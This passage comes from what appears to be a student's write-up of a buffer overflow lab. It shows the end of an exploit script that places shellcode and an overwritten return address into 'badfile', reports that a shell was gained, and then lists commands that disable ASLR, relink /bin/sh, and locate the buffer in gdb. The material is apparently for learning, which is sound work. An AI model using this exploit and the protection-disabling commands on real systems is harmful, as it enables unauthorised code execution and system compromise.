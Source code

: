 ```
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
and put it somewhere in the payload
ret    = 0xffffcb48 + 250         
offset = 112              

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

##### After executing the exploit.py shown above we gained access to the shell, as shown in the print below.
![image](images/shell.png)

## Task 4: Launching Attack without Knowing Buffer Size (Level 2)
First we disabled two major counters against buffer overflow using the following lines in the shell.
```
$ sudo sysctl -w kernel.randomize_va_space=0
$ sudo ln -sf /bin/zsh /bin/sh
```

Then we run almost the same code that we ran in the last task.
```
$ touch badfile
$ make
$ gdb stack-L2-dbg
  b bof
  run
  next
  p &buffer // $1 = (char (*)[160]) 0xffffca60
  quit
```